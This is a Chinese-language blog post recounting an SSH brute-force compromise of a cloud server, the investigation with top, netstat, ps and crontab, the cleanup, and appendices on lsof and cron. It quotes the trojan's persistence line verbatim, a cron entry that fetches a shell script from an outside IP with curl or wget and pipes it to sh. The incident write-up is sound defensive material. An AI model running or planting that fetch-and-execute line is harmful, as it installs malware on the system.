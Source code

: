 ```yaml
---
title: ECS遭遇安全攻击的一次经历
date: 2019-05-04 20:11:03
tags:
---
```


突然，腾讯云发出安全提示信息，先是SSH暴力破解的警告，过了几天又是ECS被植入木马的警告，Linux的安全防护被提上日程了！

# 服务器的问题表现

{% asset_img alert-0.png 腾讯云的警告信息汇总%}

- 登录ECS服务器，用`top`命令检查系统状态，发现CPU负荷长期维持100%，系统响应缓慢，其中`/tmp/vThHH`严重消耗资源，确认中招了！

{% asset_img alert-1.png SSH暴力破解的警告信息%}

- 服务器的root口令没有变化，但登录成功时提示有几百个`failed login attempts`，说明SSH口令已经被暴力破解

# 系统检查的主要工作

主要从以下几个方面入手：

1. 检查网络服务

使用`netstat -nlp`，发现除了22，80，443端口，还对外暴露了可疑的7946端口，调用者是`/tmp/vThHH`。

2. 检查系统进程

通过`ps -ef`命令，跟踪可疑进程`/tmp/vThHH`，发现父进程就是木马程序`/usr/bin/ybznfa2`。
进一步检查，发现了木马的加载进程。

```
root      4365   736  0 18:30 ?        00:00:00 /usr/sbin/CROND -n
root      4366  4365  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
root      4367  4366  0 18:30 ?        00:00:00 /bin/sh -c (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -m180 -fsSL http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) |sh
```

3. 检查cron任务

该木马由crond启动，通过`crontab -u root -l`检查定时任务，发现每15分钟就执行一次上述bash脚本，这就是木马的埋点！

```
*/15 * * * * (/usr/bin/ybznfa2||/usr/libexec/ybznfa2||/usr/local/bin/ybznfa2||/tmp/ybznfa2||curl -fsSL -m180 http://109.237.25.145:8000/i.sh||wget -q -T180 -O- http://109.237.25.145:8000/i.sh) | sh
```

# 该木马的工作原理

- 通过网络爬虫等手段收集服务器域名信息
- 以服务器默认的root用户，通过ssh暴力破解获得口令
- 通过ssh登录，添加cron定时任务，从远端服务器下载木马程序，并存放在多个目录下
- 后台启动木马，打开自定义端口进行远程控制

# 处理措施

- 手工清理cron的任务清单
- 手工杀死`/tmp/vThHH`，`/usr/bin/ybznfa2`等可疑进程
- 手工删除上述木马程序
- 检查系统进程、网络服务、定时任务等状态，确认问题解决

# 如何彻底解决SSH暴力破解的威胁？

最有效的方法就是，关闭口令登录方式，改为密钥登录，请参见下一片文章。

**应该说，腾讯云提供的安全服务还是比较有效的，赞一个！**

---

# 附录1: 关于lsof命令

查看被占用端口的归属进程，可用使用`lsof -i:<port>`命令。

```
[root@VM_0_17_centos log]# lsof -i:80
COMMAND PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   936  root    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
nginx   937 nginx    6u  IPv4  15296      0t0  TCP *:http (LISTEN)
```

查看某个进程使用的系统资源信息，包括文件、端口等，可以使用`lsof -p <pid>` 命令。

```
[root@VM_0_17_centos log]# lsof -p 527
COMMAND   PID USER   FD      TYPE             DEVICE SIZE/OFF   NODE NAME
YDService 527 root  cwd       DIR              253,1     4096 525988 /usr/local/qcloud/YunJing/YDEyes
YDService 527 root  rtd       DIR              253,1     4096      2 /
YDService 527 root  txt       REG              253,1  5194952 525989 /usr/local/qcloud/YunJing/YDEyes/YDService
YDService 527 root  mem       REG              253,1    68192 266804 /usr/lib64/libbz2.so.1.0.6
YDService 527 root  mem       REG              253,1   157424 266780 /usr/lib64/liblzma.so.5.2.2
YDService 527 root  mem       REG              253,1    90248 265916 /usr/lib64/libz.so.1.2.7
YDService 527 root  mem       REG              253,1    99944 266803 /usr/lib64/libelf-0.170.so
YDService 527 root  mem       REG              253,1    19896 266044 /usr/lib64/libattr.so.1.1.0
YDService 527 root  mem       REG              253,1   297360 274746 /usr/lib64/libdw-0.170.so
YDService 527 root  mem       REG              253,1    20032 266047 /usr/lib64/libcap.so.2.22
YDService 527 root  mem       REG              253,1    86544 274509 /usr/lib64/libnss_myhostname.so.2
YDService 527 root  mem       REG              253,1   106848 265653 /usr/lib64/libresolv-2.17.so
YDService 527 root  mem       REG              253,1    31824 265641 /usr/lib64/libnss_dns-2.17.so
YDService 527 root  mem       REG              253,1    62184 265643 /usr/lib64/libnss_files-2.17.so
YDService 527 root  mem       REG              253,1  2173512 265625 /usr/lib64/libc-2.17.so
YDService 527 root  mem       REG              253,1    88720 262170 /usr/lib64/libgcc_s-4.8.5-20150702.so.1
YDService 527 root  mem       REG              253,1  1139680 265633 /usr/lib64/libm-2.17.so
YDService 527 root  mem       REG              253,1   995840 265950 /usr/lib64/libstdc++.so.6.0.19
YDService 527 root  mem       REG              253,1    19776 265631 /usr/lib64/libdl-2.17.so
YDService 527 root  mem       REG              253,1   144792 265651 /usr/lib64/libpthread-2.17.so
YDService 527 root  mem       REG              253,1    44448 265655 /usr/lib64/librt-2.17.so
YDService 527 root  mem       REG              253,1   164240 265618 /usr/lib64/ld-2.17.so
YDService 527 root    0w      REG              253,1   227581 525140 /usr/local/qcloud/YunJing/log/ydservice.20190505.log
YDService 527 root    1u      CHR                1,3      0t0   5078 /dev/null
YDService 527 root    2u  a_inode               0,10        0   5074 [eventpoll]
YDService 527 root    3uW     REG               0,19        3  13104 /run/YDService.pid
YDService 527 root    4u     IPv4              17010      0t0    TCP VM_0_17_centos:45598->169.254.0.55:lsi-bobcat (ESTABLISHED)
YDService 527 root    5u     unix 0xffff8da7babcec00      0t0  17082 /usr/local/yd.socket.server
YDService 527 root    6u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    7r  a_inode               0,10        0   5074 inotify
YDService 527 root    8u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root    9u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   10u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   11u  a_inode               0,10        0   5074 [timerfd]
YDService 527 root   24u     unix 0xffff8da7bb51fc00      0t0  17639 /usr/local/yd.socket.server
```

# 附录2：关于crontab命令

- crond是常用的木马启动入口，主要的配置文件存放在 `/var/spool/cron/`目录下。

```
[root@VM_0_17_centos etc]# ls -l /var/spool/cron
总用量 4
drwxr-xr-x 2 root root 4096 4月  18 20:58 crontabs
-rw------- 1 root root    0 5月   5 11:10 root
```

- 也可能存放在`/etc/cron.d/`等类似目录下。

```
[root@VM_0_17_centos etc]# ls -lF /etc |grep cron
-rw-------.  1 root root      541 4月  11 2018 anacrontab
drwxr-xr-x.  2 root root     4096 4月  30 16:47 cron.d/
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.daily/
-rw-------.  1 root root        0 4月  11 2018 cron.deny
drwxr-xr-x.  2 root root     4096 8月   8 2018 cron.hourly/
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.monthly/
-rw-r--r--.  1 root root      451 6月  10 2014 crontab
drwxr-xr-x.  2 root root     4096 6月  10 2014 cron.weekly/
```
- cron的运行日志保存在`/var/log/cron`文件中，内容格式为

```
[root@VM_0_17_centos log]# head /var/log/cron

Dec 21 09:11:35 VM_0_17_centos crontab[1627]: (root) LIST (root)
Dec 21 09:11:35 VM_0_17_centos crontab[1626]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1698]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1702]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1701]: (root) REPLACE (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1728]: (root) LIST (root)
Dec 21 09:11:42 VM_0_17_centos crontab[1730]: (root) REPLACE (root)
Dec 21 09:12:02 VM_0_17_centos CROND[1811]: (root) CMD (/usr/local/qcloud/stargate/admin/start.sh > /dev/null 2>&1 &)
Dec 21 09:12:32 VM_0_17_centos crond[739]: (CRON) INFO (Shutting down)
```

- [crontab配置方法的参考文档](http://www.cnblogs.com/longjshz/p/5779215.html)

